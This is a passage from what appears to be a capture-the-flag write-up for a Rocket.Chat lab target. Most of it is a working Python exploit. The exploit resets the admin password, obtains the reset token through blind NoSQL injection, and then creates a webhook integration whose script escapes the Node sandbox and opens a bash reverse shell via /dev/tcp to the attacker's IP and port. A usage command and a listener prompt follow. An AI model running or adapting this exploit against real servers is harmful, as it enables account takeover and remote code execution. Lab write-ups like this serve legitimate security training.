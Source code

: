 ```python
	payload += '"class Script {\\n\\n  process_incoming_request({ request }) {\\n\\n\\tconst require = console.log.constructor(\'return process.mainModule.require\')();\\n\\tconst { exec } = require(\'child_process\');\\n\\texec(\'bash -c \\\"bash -i >& /dev/tcp/' + str(ip_address) + '/' + str(port) + ' 0>&1\\\"\');\\n}\\n}",'
	payload += '"type":"webhook-incoming"}'

	cookies = {'rc_uid': userid,'rc_token': token}
	headers = {'X-User-Id': userid,'X-Auth-Token': token}
	r = requests.post(url+'/api/v1/integrations.create',cookies=cookies,headers=headers,data=payload)
	data = r.json()
	_id = data["integration"]["_id"]
	token = data["integration"]["token"]

	# Triggering RCE
	u = url + '/hooks/' + _id + '/' +token 
	r = requests.get(u) 
	print(r.text)

############################################################


# Getting Low Priv user
print(f"[+] Resetting admin  password")
## Sending Reset Mail
forgotpassword("admin@rocket.thm",target)

## Getting reset token through blind nosql injection
token = resettoken(target)

## Changing Password
changingpassword(target,token)

## Authenticating and triggering rce
input("Start nc listener on your chosen port and press 'Enter'")
rce(target,ip_address,port)
```

At this stage i spent alot of time testing different lines of code, searched for many hours and did countless attempts to get the payload to work. I had to use a modified snipet of code for the payload part from someone else and i manage to get it to work. 

To be honnest, if it wasn't for the information online i could still be working in this payload.

Now we can test my custom rocket.chat exploit to see if we recieve a shell on our attacker machine:

```
python3 ./rocket_chat_exploit.py -u test@test.com -a admin@rocket.thm -t 'http://chat.rocket.thm' -i my_ip_address -p 9001
```

![image](https://user-images.githubusercontent.com/76821053/128165312-df1ba041-d709-4673-a02c-ed824590f6c8.png)
